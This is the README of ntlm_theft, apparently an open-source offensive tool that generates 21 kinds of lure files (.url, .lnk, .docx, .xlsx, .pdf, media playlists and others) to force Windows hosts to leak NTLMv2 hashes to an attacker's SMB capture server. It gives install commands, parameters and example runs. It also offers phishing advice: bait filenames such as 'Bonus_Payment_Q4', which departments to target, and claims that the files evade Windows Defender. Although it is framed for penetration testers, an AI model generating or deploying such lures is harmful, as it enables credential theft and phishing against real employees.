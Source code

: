 # Installation
```
sudo chmod +x ./ntlm_theft.py
sudo mv ./ntlm_theft.py /usr/local/bin
```

# ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network. 

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host.  



ntlm_theft supports the following attack types:

* Browse to Folder Containing
	* .url – via URL field
	* .url – via ICONFILE field
	* .lnk - via icon_location field
	* .scf – via ICONFILE field (Not Working on Latest Windows)
	* autorun.inf via OPEN field (Not Working on Latest Windows)
	* desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
	* .xml – via Microsoft Word external stylesheet
	* .xml – via Microsoft Word includepicture field
	* .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
	* .docx – via Microsoft Word includepicture field
	* .docx – via Microsoft Word external template
	* .docx – via Microsoft Word frameset webSettings
	* .xlsx - via Microsoft Excel external cell
	* .wax - via Windows Media Player playlist (Better, primary open)
	* .asx – via Windows Media Player playlist (Better, primary open)
	* .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
	* .jnlp – via Java external jar
	* .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
	* .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
	* .txt – formatted link to paste into Zoom chat


## Usecases (Why you want to run this)

ntlm_theft is primarily aimed at Penetration Testers and Red Teamers, who will use it to perform internal phishing on target company employees, or to mass test antivirus and email gateways. It may also be used for external phishing if outbound SMB access is allowed on the perimeter firewall.

I've found it useful while penetration testing to easily see what file types I have available to me, rather than spending time configuring a specific attack as would be used on red teaming engagements. You could send a .rtf or .docx file to the HR department, and a .xlsx spreadsheet doc to the finance department.

## Getting Started

These instructions will show you the requirements for and how to use ntlm_theft.

### Prerequisites

ntlm_theft requires Python3 and xlsxwriter:

```
pip3 install xlsxwriter
```

### Required Parameters

To start up the tool 4 parameters must be provided, an input format, the input file or folder and the basic running mode:

```
-g, --generate	: Choose to generate all files or a specific filetype
-s, --server 	: The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename	: The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

### Example Runs

Here is an example of what a run looks like generating all files:

```
# python3 ntlm_theft.py -g all -s 127.0.0.1 -f test
Created: test/test.scf (BROWSE)
Created: test/test-(url).url (BROWSE)
Created: test/test-(icon).url (BROWSE)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Generation Complete.
```

![Example Run](docs/example-run.png?raw=true "Example Run")


Here is an example of what a run looks like generating only modern files:

```
# python3 ntlm_theft.py -g modern -s 127.0.0.1 -f meeting
Skipping SCF as it does not work on modern Windows
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Skipping zoom as it does not work on the latest versions
Skipping Autorun.inf as it does not work on modern Windows
Skipping desktop.ini as it does not work on modern Windows
Generation Complete.
```

Here is an example of what a run looks like generating only a xlsx file:

```
# python3 ntlm_theft.py -g xlsx -s 192.168.1.103 -f Bonus_Payment_Q4
Created: Bonus_Payment_Q4/Bonus_Payment_Q4-(externalcell).xlsx (OPEN)
Generation Complete.
```

## Authors

* **Jacob Wilkin** - *Research and Development*

## License

ntlm_theft
Created by Jacob Wilkin
Copyright (C) 2020 Jacob Wilkin
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments

* [Ired](https://ired.team/offensive-security/initial-access/t1187-forced-authentication)
* [Securify](https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html)
* [Pentestlab](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
* [deepzec](https://github.com/deepzec/Bad-Pdf/blob/master/badpdf.py)
* [rocketscientist911](https://github.com/rocketscientist911/excel-ntlmv2)
* [Osanda](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
* [Violation Industry](https://www.youtube.com/watch?v=PDpBEY1roRc)
* [@kazkansouh](https://github.com/kazkansouh) - Adding .lnk support
